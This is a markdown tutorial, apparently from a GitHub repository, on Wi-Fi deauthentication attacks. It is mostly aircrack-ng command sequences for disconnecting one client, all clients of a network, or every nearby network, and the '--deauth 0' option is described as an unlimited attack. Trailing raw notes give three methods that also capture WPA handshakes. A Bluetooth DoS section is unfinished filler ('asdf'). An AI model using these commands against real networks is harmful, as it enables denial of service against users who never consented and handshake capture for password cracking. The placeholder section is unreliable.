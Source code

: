 <h1 align="center">Network Jamming / Network Spoofing</h1>

## Deauth. attack  

The **Deauth** attack perform on Wi-Fi (802.11) network only. It won't affect those people who are using internet via Ethernet cable (IEEE 802.3) i.e. wired cable. The target of this attach have 3 types :  
- [x] Attack on **a particular client** of a particular Wi-Fi's network (specific client if have/know his mac addreess)
- [x] Attack on **all clients** of a particular Wi-Fi's network (if don't know any client's MAC address)
- [x] Attack on **all Wi-Fi** available networks/routers directly.

> But to attack on Ethernet cable using clients, the methods are : ARP Spoofing / ARP Poisoning (Man-in-the-Middle Attack), DHCP Starvation or Rogue DHCP Attack, Switch MAC Flooding (CAM Table Overflow). But these we won't learn here, or maybe we'll learn it later.

`~$` is local user.  
`~#` is root user.  




#### Step 1 : Setup for Attack
First we need to convert the 'wlan0' interface to 'wlan0mon' interface, basically we are do setup & enabling the Wi-Fi's monitoring mode to do attack. For this we use the following commands :  
```
sudo su
iwconfig
airmon-ng
iwconfig wlan0
// airmon-ng start wlan0
airmon-ng check kill (2 times) . . .
airmon-ng stop wlan0 . . .
iw wlan0 del
airmon-ng start wlan0mon
iwconfig
rfkill list


clear
exit
exit
```
Run the above commands one-by-one only.  
<br>


#### Step 2 : Searching targeted Wi-Fi
Now run the following commands :  
```
airodump-ng wlan0mon

- - -ctrl + C to stop
- - -Can close if done work
```
So, when it dispaly the required network then we can stop the process with 'ctrl + C' shortcut. But don't close this tab, it helps to copy network's channel no. & BSSID.  
<br>


#### Step 3 : Locking targeted Wi-Fi/router and Searching its targeted client
Now open new terminal tab and run the following commands :  
```
sudo su


airodump-ng wlan0mon --bssid "_" -c "_"
	(OR)
airodump-ng --bssid "_" -c "_" wlan0mon
	(OR)
airodump-ng -c_ -d "__BSS-ID__" wlan0mon


- - - - -Keep running, don't close
```
**Don't close it, keep running**. So, here we need to mentioned a particular Wi-Fi network's BSSID & channel no. And from this we are setting to attack on a particular Wi-Fi network. If want to attack all network then don't mention BSSID & channel no.
<br>


#### Step 4 : Attacking (on router // on client)
Now open new terminal tab and run the following commands :  
```
sudo


aireplay-ng --deauth 0 -a "___BSS-ID___" -c "__STATION__" wlan0mon
	(OR)
besside-ng -c "_" wlan0mon


- - - - -ctrl + C ----😁
```
Here, if we want to attack all then don't mention BSSID & station of any client. Also, here `--deauth 0` means unlimited attack and we can even change it to `10` or `100` also.  






---
---



## Bluetooth DOS attack

#### Step 1 : Bluetooth Enable (optional)
Check whether the Bluetooth is enabled or not. If not enabled then enable it and proceed to **next step**. But if the Bluetooth icon not appearing, or it's not enabling, then follow the below commands :   
```
~$ asdf
```
```
~# asdf
```

<br>

#### Step 2 :  
asdf










------
------
------
rfkill list all

	xxx	sudo apt-get update

sudo apt reinstall blueman

sudo apt reinstall bluetooth

/etc/init.d/bluetooth status

sudo /etc/init.d/bluetooth start



sudo systemctl list-unit-files --type=service

          to exit---> ctrl + C

sudo systemctl enable blueman-mechanism.service

sudo systemctl enable bluetooth.service

sudo systemctl list-unit-files --type=service

exit

			// https://youtu.be/w1MvrcBSNjw
------
------
------

convert wlan0 to wlan0mon
-------------------------
sudo su
iwconfig
airmon-ng stop wlan0
iw wlan0 del
airmon-ng start wlan0mon
rfkill list

----------------------------
method-1
---------
sudo su
airmon-ng check kill
airmon-ng start wlan0

airodump-ng wlan0mon
ctrl+C
	
	sudo su
	cd Desktop
	airodump-ng wlan0mon --bssid "_" -c "_" -w demo

		sudo su
		aireplay-ng --deauth 0 -a "___BSS-ID___" wlan0mon
		ctrl+C, ^ ENTER....

after handshake...
---------------------------------
method-2
---------
sudo su
airmon-ng
iwconfig
clear

airmon-ng start wlan0
airmon-ng check kill (2)
airmon-ng start wlan0
clear
airmon-ng start wlan0mon
clear
iwconfig

airodump-ng wlan0mon
ctrl+C

	sudo su
	cd Desktop
	airodump-ng --bssid "_" -c "_" -w demo wlan0mon  //  (attack all networks don't metioned client/channel and bssid)

		sudo su
		besside-ng -c "_" wlan0mon  //  (attack all networks don't metioned client)

after handshake...
----------------------------------
method-3
--------

iwconfig
ifconfig wlan0
airmon-ng start wlan0
iwconfig
clear

airodump-ng wlan0mon
ctrl+C

sudo su
cd Desktop
airodump-ng -c_ -w demo -d "__BSS-ID__" wlan0mon

	sudo su
	aireplay-ng --deauth 0 -a "__BSS-ID__" -c "__STATION__" wlan0mon // (all or particular member using -c and station)
	ctrl+C

after handshake...
airmon-ng stop wlan0mon	


